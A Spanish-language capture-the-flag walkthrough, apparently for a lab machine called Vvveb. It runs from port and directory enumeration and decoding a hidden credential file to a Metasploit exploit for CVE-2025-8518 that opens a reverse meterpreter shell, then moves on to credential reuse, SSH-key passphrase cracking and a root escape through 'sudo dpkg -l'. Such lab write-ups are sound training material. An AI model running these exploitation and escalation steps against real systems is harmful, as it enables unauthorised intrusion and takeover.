




## Table of contents

## Enumeración

La máquina Vvveb tiene la ip **10.0.2.80**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.80

Nmap scan report for 10.0.2.80
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 7+deb13u4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.68 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Vvveb
|_http-server-header: Apache/2.4.68 (Debian)
```

### Puerto 80 (Web)

Accedemos con el navegador a la web y nos encontramos con la página por defecto del CMV Vvveb.



Vamos a enumerar subdirectorios pero solo aquellos que nos respondan con un código de estado de redirección, así veremos los directorios de configuración del CMS.

```bash
ffuf -c -u "http://10.0.2.80/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -fc 200,403

 :: Method           : GET
 :: URL              : http://10.0.2.80/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 200,403
________________________________________________

admin                   [Status: 301, Size: 346, Words: 21, Lines: 10, Duration: 42ms]
app                     [Status: 301, Size: 344, Words: 21, Lines: 10, Duration: 42ms]
checkout                [Status: 302, Size: 181, Words: 21, Lines: 3, Duration: 503ms]
config                  [Status: 301, Size: 347, Words: 21, Lines: 10, Duration: 33ms]
install                 [Status: 301, Size: 348, Words: 21, Lines: 10, Duration: 46ms]
plugins                 [Status: 301, Size: 348, Words: 21, Lines: 10, Duration: 21ms]
public                  [Status: 301, Size: 347, Words: 21, Lines: 10, Duration: 37ms]
system                  [Status: 301, Size: 347, Words: 21, Lines: 10, Duration: 1ms]
```

Si accedemos al subdirectorio **/system** encontramos un archivo llamado **secret**.



Este archivo contiene una cadena de texto en base64.

```bash
 cat secret
MDAwMDAwMDAgIDM1IDM5IDIwIDM1IDM3IDIwIDM1IDMyIDIwIDM3IDM0IDIwIDM2IDMxIDIwIDM1ICB8NTkgNTcgNTIgNzQgNjEgNXwKMDAwMDAwMTAgIDM3IDIwIDMzIDM0IDIwIDMzIDM2IDIwIDM2IDMzIDIwIDMzIDMyIDIwIDM0IDY1ICB8NyAzNCAzNiA2MyAzMiA0ZXwKMDAwMDAwMjAgIDIwIDM3IDM2IDIwIDM2IDM0IDIwIDM0IDM4IDIwIDM1IDMyIDIwIDM2IDY1IDIwICB8IDc2IDY0IDQ4IDUyIDZlIHwKMDAwMDAwMzAgIDM2IDMzIDIwIDM2IDY0IDIwIDM1IDM2IDIwIDM2IDYzIDIwIDM2IDMyIDIwIDM2ICB8NjMgNmQgNTYgNmMgNjIgNnwKMDAwMDAwNDAgIDM3IDIwIDMzIDY0IDIwIDMzIDY0ICAgICAgICAgICAgICAgICAgICAgICAgICAgICB8NyAzZCAzZHw=
```

Al decodificarlo vemos en la derecha una serie de caracteres alfanuméricos que parecen ser hexadecimal.

```bash
cat secret | base64 -d
00000000  35 39 20 35 37 20 35 32 20 37 34 20 36 31 20 35  |59 57 52 74 61 5|
00000010  37 20 33 34 20 33 36 20 36 33 20 33 32 20 34 65  |7 34 36 63 32 4e|
00000020  20 37 36 20 36 34 20 34 38 20 35 32 20 36 65 20  | 76 64 48 52 6e |
00000030  36 33 20 36 64 20 35 36 20 36 63 20 36 32 20 36  |63 6d 56 6c 62 6|
00000040  37 20 33 64 20 33 64                             |7 3d 3d|  
```

Nos quedamos con esos caracteres, los convertimos a texto y obtenemos nuevamente una cadena en base64.

```bash
cat secret | base64 -d | awk -F '|' '{print $2}' | tr -d "\n" | xxd -r -p
YWRtaW46c2NvdHRncmVlbg==
```

Decodificamos la cadena de texto y obtenemos las credenciales del Vvveb CMS.

```bash
cat secret | base64 -d | awk -F '|' '{print $2}' | tr -d "\n" | xxd -r -p | base64 -d
admin:scottgreen 
```

Al revisar el código fuente de la web vemos que es un Vvveb CMS 1.0.5



## Explotación
### CVE-2025-8518 Authenticated RCE

Esta versión de Vvveb CMS tiene reportado el CVE-2025-8518 que permite un **Authenticated Remote Code Execution**. Vamos a explotarlo empleando las credenciales obtenidas.

Para ello vamos a usar **Metasploit**. Iniciamos **msfconsole**, buscamos la versión del CMS y usamos su exploit.

```bash
msfconsole -q
msf > search vvveb 1.0.5
Matching Modules
================
   #  Full Name                                        Disclosure Date  Rank       Check  Name
   -  ---------                                        ---------------  ----       -----  ----
   0  exploit/multi/http/vvveb_auth_rce_cve_2025_8518  2025-01-10       excellent  Yes    Remote Code Execution Vulnerability in Vvveb

msf > use 0
```

Ahora mediante **options** listamos la configuración del exploit. En nuestro caso, tenemos que modificar **RHOSTS** con la ip de la máquina, **LHOST** con nuestra ip y **PASSWORD** con la contraseña del admin.

```bash
msf exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set RHOSTS 10.0.2.80
RHOSTS => 10.0.2.80

msf exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set LHOST 10.0.2.15
LHOST => 10.0.2.15

msf exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set PASSWORD scottgreen
PASSWORD => scottgreen
```

Una vez hecho, ejecutamos **run** y se iniciará el exploit. Nos aparecerá una sesión de meterpreter, para obtener una shell interactiva ejecutamos **shell**.

Entramos al servidor como el usuario **www-data**.

```bash
msf exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > run

meterpreter > shell

Process 1391 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Movimiento Lateral
### Bunny

Revisando los archivos de la web conseguimos las credenciales del usuario **bunny**.

```bash
cat /var/www/vvveb/config/db.php
<?php
 return array (
  'default' => 'mysqli',
  'connections' => 
  array (
    'mysqli' => 
    array (
      'engine' => 'mysqli',
      'host' => '127.0.0.1',
      'database' => 'vvveb',
      'user' => 'bunny',
      'password' => 'buNNy_P@$$w0rd_99',
      'port' => NULL,
      'prefix' => '',
    ),
  ),
);
```

Nos conectamos al servicio **ssh** con ellas.

### Zer0arc4

El usuario **bunny** tiene permisos de lectura y ejecución en el directorio del usuario **zer0arc4**, así que vamos a copiarnos su llave privada (id_ed25519) para acceder por ssh con ella.

```bash
bunny@vvveb:~$ ls -la /home/zer0arc4/.ssh/
total 20
drwx---r-x 2 zer0arc4 zer0arc4 4096 Sep  4 11:28 .
drwxr--r-x 4 zer0arc4 zer0arc4 4096 Sep  4 11:43 ..
-rw-r--r-- 1 zer0arc4 zer0arc4   96 Sep  4 11:28 authorized_keys
-rw----r-- 1 zer0arc4 zer0arc4  464 Sep  4 11:20 id_ed25519
-rw-r--r-- 1 zer0arc4 zer0arc4   96 Sep  4 11:20 id_ed25519.pub
``` 

La llave dispone de un **passphrase** que no tenemos pero en la raíz del servidor (**/**) hay un archivo **pass.dic** que contiene una serie de contraseñas, entre ellas la de bunny.


```bash
bunny@vvveb:/$ cat pass.dic 
nineintheafternoon
buNNy_P@$$w0rd_99
Umeshchandra02@vulnyx
fromyesterday
```

Vamos a emplear John The Ripper junto al archivo pass.dic para averiguar el passphrase de la llave privada.

```bash
ssh2john zer0arc4_key > hash.txt
                                                     
john hash.txt --wordlist=pass.dic

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
fromyesterday    (zer0arc4_key)      
```

Nos conectamos por ssh con la llave privada y el passphrase obtenido como el usuario **zer0arc4**.

```bash 
ssh -i zer0arc4_key zer0arc4@10.0.2.80
Enter passphrase for key 'zer0arc4_key': 

zer0arc4@vvveb:~$ ls -la
total 36
drwxr--r-x 4 zer0arc4 zer0arc4 4096 Sep  4 11:43 .
drwxr-xr-x 4 root     root     4096 Sep  4 08:55 ..
-rw------- 1 zer0arc4 zer0arc4   92 Sep  7 05:22 .bash_history
-rw-r--r-- 1 zer0arc4 zer0arc4  220 Sep  4 08:25 .bash_logout
-rw-r--r-- 1 zer0arc4 zer0arc4 3526 Sep  4 08:25 .bashrc
drwx------ 3 zer0arc4 zer0arc4 4096 Sep  4 11:43 .local
-rw-r--r-- 1 zer0arc4 zer0arc4  807 Sep  4 08:25 .profile
drwx---r-x 2 zer0arc4 zer0arc4 4096 Sep  4 11:28 .ssh
-rw------- 1 zer0arc4 zer0arc4   33 Sep  4 11:03 user.txt
```

## Escalada de Privilegios
### Root

Revisando los permisos sudoers vemos que nuestro usuario puede ejecutar como **root** y sin proporcionar contraseña el binario de **dpkg**.

Nos lanzamos una bash como root en el menú interactivo de listar paquetes.

```bash
zer0arc4@vvveb:~$ sudo /usr/bin/dpkg -l

!/bin/bash

root@vvveb:/home/zer0arc4# id
uid=0(root) gid=0(root) groups=0(root)
root@vvveb:/home/zer0arc4# ls -la /root
total 44
drwx------  4 root root 4096 Sep  7 05:22 .
drwxr-xr-x 19 root root 4096 Sep  7 04:23 ..
-rw-------  1 root root  536 Sep  7 05:22 .bash_history
-rw-r--r--  1 root root  607 Jul  4 05:05 .bashrc
-rw-------  1 root root   38 Sep  7 05:22 .lesshst
drwx------  3 root root 4096 Sep  4 08:28 .local
-rw-------  1 root root 4794 Sep  4 11:44 .mariadb_history
-rw-r--r--  1 root root  132 Jul  4 05:05 .profile
-rw-r--r--  1 root root   33 Sep  4 13:44 root.txt
drwx------  2 root root 4096 Sep  4 11:55 .ssh
```